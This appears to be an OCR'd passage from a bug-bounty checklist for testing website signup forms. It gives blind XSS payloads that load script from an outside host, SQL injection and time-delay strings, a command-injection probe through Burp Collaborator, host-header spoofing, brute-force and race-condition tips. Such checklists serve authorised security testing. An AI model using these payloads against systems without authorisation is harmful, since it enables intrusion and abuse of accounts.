 4. **Blind XSS**

   - Payloads:
     - `"><script src=//me.xss.ht></script>`
     - `<img src="//me.xss.ht">`
   - Note: Test in first/last names, password fields, and user-agent headers.
   - [ ] Done

5. **SQL Injection (SQLi)**

   - Payloads:
     - `' AND '1' = '2 OR`
     - `";WAITFOR DELAY '0.0.20'--`
   - Note: Test these payloads in email addresses, usernames, first/last names, and user-agent headers.
   - [ ] Done

6. **Command Injection**

   - Payload:
     - `email=me@whoami.id.collaborator.net`
   - Note: Use Burp Collaborator and monitor for back-end information or internal IPs.
   - [ ] Done

7. **Authentication Bypass**

   - **Company Email Address:**
     - Payload: `admin@company.com`
     - Note: Try accessing all endpoints without verifying the account.
     - [ ] Done

   - **Spoofing Host Header:**
     - Payload: `X-Forwarded-Host: me.com`
     - Note: Test this if the company accepts the company email but doesn't activate the account.
     - [ ] Done

8. **Brute Force**

   - Payload:
     - `email=me@gmail.com&password=********`
   - Note: Use brute force tools to create multiple accounts or enumerate email addresses.
   - [ ] Done

9. **Race Conditions**

   - Payload:
     - `email=m&password=********&Invitation=Random` (for invitation-based signup)
   - Note: Use automation to create multiple accounts with a single invitation.
   - [ ] Done

10. **Mobile-Number Verification**

    - Note: If the site uses mobile verification, investigate OTP expiration, response manipulation, and UUID tampering.
    - [ ] Done

11. **CSRF**
